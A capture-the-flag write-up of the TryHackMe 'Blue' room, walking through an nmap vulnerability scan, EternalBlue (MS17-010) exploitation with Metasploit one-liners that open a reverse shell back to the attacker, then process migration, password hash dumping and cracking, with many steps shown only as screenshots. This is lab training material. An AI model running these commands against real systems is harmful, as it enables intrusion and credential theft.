 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
published: true
---
```


# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

![](../thm-blue-nmap-command.png)  

 ### // Results  

![](../thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](../thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](../thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](../thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

 ![](../thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

 ![](../thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](../thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  

 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  

 ![](../thm-blue-meterpreter-default.png)  

 ### Session has started with default meterpreter shell  

 ![](../thm-blue-meterpreter-session-started.png)

 ### List the current processes running on the target  

 ![](../thm-blue-meterpreter-ps.png)  

 ### Get process ID of current meterpreter shell

 ![](../thm-blue-meterpreter-getpid.png)  

 ### Migrate to another process  

 ![](../thm-blue-meterpreter-migrate.png)  

 ### Dump the hashes  

 ![](../thm-blue-meterpreter-hashdump.png)  

 ### Quick and dirty Crackstation  

 ![](../thm-blue-crackstation.png)  

 ### Quick and dirty find flags  

 ![](../thm-blue-find-flags.png)  













